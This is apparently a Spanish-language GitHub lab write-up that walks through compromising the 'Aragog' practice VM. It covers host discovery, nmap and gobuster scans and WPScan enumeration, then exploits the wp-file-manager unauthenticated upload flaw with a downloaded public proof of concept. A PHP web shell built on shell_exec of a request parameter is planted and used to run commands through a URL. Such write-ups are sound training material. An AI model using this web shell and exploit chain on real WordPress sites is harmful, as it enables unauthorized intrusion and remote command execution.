 ## Maquina aragog 
Empezamos con la máquina Aragog, ya que es la que se encuentra en nuestra red. Primero debemos encontrarla y para ello necesiatremos convertirnos en root.
Si quieres aprender a vulnerarla sigue los pasos como se indican.

## 1. RED

```
sudo nano /etc/network/interface
```
Nos tiene que quedar como se muestra la imagen.
![Captura de pantalla 2024-02-27 193951](https://github.com/Vicctoriaa/VISMA/assets/153718557/44a1151b-10f4-4293-9d0d-6758bdec6e69)

En caso de que queramos saber que hemos puesto en la interface podemos utilizar el siguiente comando:

```
cat /etc /network/interface
```

Reiniciamos la maquina, y nos dirigimos a nuestra maquina principal es importante tener la Aragog encendida para que nos encuentre la ip, para saber que ip tiene escanearemos la red 
poniendo el siguiente comando:
```
arp-scan -I ens33 –localnet 
```
Si solamenente queremos buscar la maquina, y estamos usando VmWare podremos añadirle el comando `grep` y entre comillas pondremos lo siguiente:
```
arp-scan -I ens33 –localnet | grep "VMware, Inc."
```
![segunda cap_arp scan](https://github.com/Vicctoriaa/VISMA/assets/153718557/0adfdaf6-8c45-4ebb-8f52-129be138e098)
‎ ‎ ‎ 
‎ ‎ ‎ ‎ 
‎ 
‎ 
## 2. ATAQUE

Revisaremos si la maquina se encunetra activa o si hay algun firewall bloqueando las trazas ICMP, para ello debermos hacer un `ping`. 

```
ping -c 1 IP_DE_LA_ARAGOG
```
![tercera cap_ping](https://github.com/Vicctoriaa/VISMA/assets/153718557/a16ed55c-d8de-43e8-aeab-ed765bd07e2c)

Una vez le hemos mandado un ping, podemos revisar que la máquina esta encendida, también vemos que el ttl = 64 por lo que es una máquina Linux, si el ttl es “=” o menor a 64 quiere decir, que probablemente estamos ante una máquina Linux. 
Podemos observar también que ningún paquete a sido descartado, entonces ya sabemos que esta en el mismo segmento de red y esta preparada para ser vulnerada.

Una vez tengamos esa información, deberemos hacer un escaneo de puertos para ello utilizaremos la herramienta nmap, especializada en escanear puertos, pondremos parametros ya que queremos solamente cosas especificas. (si quieres saber sobre los parametros entra aqui:.....)
```
nmap -sS -p --open -T5 --min-rate 5000 IP_DE_LA_ARAGOG -n -Pn -vvv -oG
```
![4 cap_nmap1](https://github.com/Vicctoriaa/VISMA/assets/153718557/9f0cecac-277b-46ab-96c7-0a7fdd210233)

Una vez hemos acabado con el escaneo de puertos ahora debemos detectar que servicios o versiones están corriendo en estos puertos, para ello una vez tenemos los puertos abiertos copiados a la clipboard
```
nmap -sCV -p22,80 IP_DE_LA_ARAGOG -oN portServices
```

![5 cap_nmap2](https://github.com/Vicctoriaa/VISMA/assets/153718557/801bb9f3-6416-44bd-a619-4440f6e2bd8a)

hecho el escaneo encontramos que el puerto 22 está corriendo ssh, pero como no tenemos ninguna clave de momento no podemos hacer nada y un ataque de fuerza bruta tardaríamos bastante, por lo que lo dejamos como ultima opción. Encontramos que en el puerto 80 está corriendo apache, lo que quiere decir que hay una web corriendo por detrás.

Si buscamos la ip de la máquina (192.168.1.62) con el puerto 80 encontramos lo siguiente

![6 cap_ipnavegadorWEB](https://github.com/Vicctoriaa/VISMA/assets/153718557/7f000f25-3155-43a7-8403-493871ef5ca3)

De primeras no vemos nada que nos llame la atención así que vamos a ver el código fuente para ver si hay algo interesante, para ello hacermos click en ctrl + u

![7 cap_ctrl_U_web](https://github.com/Vicctoriaa/VISMA/assets/153718557/1aee44e7-258b-4fa8-8144-20a09f3a22a8)

Y no encontramos nada. Lo siguiente a probar sería los subdominios, pero aquí no tenemos dominio ni servidor dns al que preguntarle los posibles subdominios o subdominios indexados por el certificado ssl. Así que haremos fuzzing, esto nos servirá para poder determinar si se encuentra algún directorio escondido dentro del servidor web. Para ello utilizaremos `gobuster`, aunque también podemos utilizar herramientas como `fuff` o `wfuzz`.
( En caso que no este instalado puedes ver como se instala aqui ...... y para saber que es cada parámetro entra aquí .......)
```
gobuster dir -u http://IP_DE_LA_ARAGOG:80 -w /usr/share/Discovery/Web-Content/directory-list-2.3-medium.txt -t 400 -x html,php,jpg,png,png,txt,docx,pdf 2>/dev/null
```
![8 cap_gobuster1](https://github.com/Vicctoriaa/VISMA/assets/153718557/36899e51-7b8a-491c-96d1-059992d80b2d)

Una vez finalizado el escaneo encontramos que el directorio “/blog” y “/javascript” Nos redirigen haca otro lado mientras “/server-status” nos devuelve un 403 (el servidor recibe la petición pero deniega el acceso a la acción), si entramos a java script, nos dará un error llamado FORBIDDEN, en cambio si entramos a blog vemos la web 

![9 cap_web blog](https://github.com/Vicctoriaa/VISMA/assets/153718557/30f6ed9f-d43e-412f-b8f2-8c3b7a7ff6cf)

Podemos observar que es una páquina Wordpress[^1], pero por alguna razón la web no esta cargando los estilos “css”[^2] , por lo que antes vamos a revisar el código fuente.
Primero en busca de comentarios de algún desarrollador que nos de información valiosa y después buscaremos en el "head" para ver que ocurre y poque no llama bien al estilo css, como hicimos anteriormente, ctrl + u

![10 cap_CSS](https://github.com/Vicctoriaa/VISMA/assets/153718557/aff25656-3d4f-40ba-9d19-e90a5d6bd107)

Ya que llama los estilos desde un dominio, para poder resolverlo debemos añadir el dominio wordpress.aragog.hogwarts y aragog.hogwarts, para que nuestro pc sea capaz de resolver el dominio, en el siguiente directorio:
```
sudo nano /etc/hosts
```
![11 cap_poner dominio CSS](https://github.com/Vicctoriaa/VISMA/assets/153718557/7465ef38-2401-4c8a-ba4b-d621605aa587)

Ahora si buscamos el dominio “wordpress.aragog.hogwarts” en el navegador nos resuelve la web correcamente

Esto es lo que nos reporta wappalyzer[^3], sobre la web

![12_wappalyzer](https://github.com/Vicctoriaa/VISMA/assets/153718557/d465f016-a542-4141-a915-3378df7a6d5a)

Podemos ver que esta pagina tiene wordpress, si intentamos entrar en el directorio “wp-content” 
```
http://wordpress.aragog.hogwarts/blog/wp-content/
```

Para ver si tenemos directory listing, para poder tener directory listing en una web se deben cumplir los siguientes requisitos:
* No contiene un archivo llamado “index.html”
* Y no contiene un archivo “.htacces”, este archivo sirve para bloquear el acceso al directory listing como tal.

Como lo que queríamos era buscar plugions de wordpress que fuesen vulnerables probaremos con otra herramienta llamada `WPscan`[^4]
```
-wpscan --url http://wordpress.aragog.hogwarts/blog/ --enumerate u,vp --plugin-detection agressive --api-token=$wpapi
```
Podemos encontrar que ha detectado varios plugins con vulnerabilidades, pero de todos esos el que mas me llama la atención es uno que me permite subir archivos de sin autenticarme y que de ahí puede derivar en una ejecución remota de comandos.
En esta [web](https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9/) nos dejan un POC (proof of concept) donde entro de este tenemos el script en Python que nos permite subir archivos remotamente.
Para descargarlo haremos un `wget` del archivo
```
wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py
```
Si hacemos un `cat` mas el archivo que acabamos de instalar podemos ver el código python.

Al archivo le añadiremos lo siguiente, pero primero hemos de entrar al archivo como root
```
sudo nano 2020-wp-file-manager-v67.py
```
Simplemente le indicamos que queremos una shell[^5], añadiendo:
```
<?php
echo "<pre>" . shell.exec($_REQUEST['cmd']) . "</pre>";
?>
```
Guardamos (ctrl + s) y salimos (ctrl + x)
Ahora hemos de juntar el escript en la url de la web, poniendo el siguiente comando.
```
python3 2020-wp-file-manager-v67.py http://wordpress.aragog.hogwarts/blog/
```
Si entramos a la url : `http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php` no nos mostrará nada ya que hemos de poner un comando al final del link añadiendole al final de la url `cmd=COMANDO_QUE_QUERAMOS`

![13 cap_cmdURL](https://github.com/Vicctoriaa/VISMA/assets/153718557/ae1e931c-e063-453a-8bf3-98313735ba11)
> En este ejemplo se muestra el comando `hostname -l` que nos dice la ip





‎ 
‎ ‎ 
‎ ‎ ‎
‎ 
‎ 

#===============================MIS-REDES==================================#

Practicamente VISMA en todos lados

https://www.youtube.com/

https://www.twitter.com/

https://www.tiktok.com/

https://www.twitch.tv/

https://www.instagram.com/

#=========================================================================#

[^1]: cuenta con Wordpress Comenter y Wp-Admin que es un usuario muy común de wordpress aparte de que pone “Proudly powered by Wordpress”.
[^2]: lenguaje que maneja el diseño y presentación de las páginas web, es decir, cómo lucen cuando un usuario las visita.
[^3]: inspecciona los datos internos de las webs, identificando la programación que se ha utilizado para desarrollarla, también es una extensión que hemos de añadir buscandola directamente desde internet. 
[^4]: herramienta especializada en escanear páginas de wordpress en busca de vulnerabilidades.
[^5]: interfaz de usuario de línea de comandos particular que se utiliza para comunicarse con el núcleo de Linux

